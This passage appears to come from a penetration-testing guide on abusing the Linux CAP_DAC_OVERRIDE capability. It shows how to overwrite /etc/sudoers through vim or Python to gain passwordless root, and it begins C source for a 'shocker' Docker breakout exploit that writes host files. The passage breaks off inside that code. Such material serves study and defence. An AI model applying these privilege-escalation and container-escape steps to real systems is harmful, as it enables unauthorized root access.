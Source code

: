 **This mean that you can bypass write permission checks on any file, so you can write any file.**

There are a lot of files you can **overwrite to escalate privileges,** [**you can get ideas from here**](payloads-to-execute.md#overwriting-a-file-to-escalate-privileges).

**Example with binary**

In this example vim has this capability, so you can modify any file like _passwd_, _sudoers_ or _shadow_:

```bash
getcap -r / 2>/dev/null
/usr/bin/vim = cap_dac_override+ep

vim /etc/sudoers #To overwrite it
```

**Example with binary 2**

In this example **`python`** binary will have this capability. You could use python to override any file:

```python
file=open("/etc/sudoers","a")
file.write("yourusername ALL=(ALL) NOPASSWD:ALL")
file.close()
```

**Example with environment + CAP\_DAC\_READ\_SEARCH (Docker breakout)**

You can check the enabled capabilities inside the docker container using:

```
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

First of all read the previous section that [**abuses DAC\_READ\_SEARCH capability to read arbitrary files**](linux-capabilities.md#cap\_dac\_read\_search) of the host and **compile** the exploit.\
Then, **compile the following version of the shocker exploit** that ill allow you to **write arbitrary files** inside the hosts filesystem:

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker_write.c -o shocker_write
// ./shocker_write /etc/passwd passwd 

struct my_file_handle {
```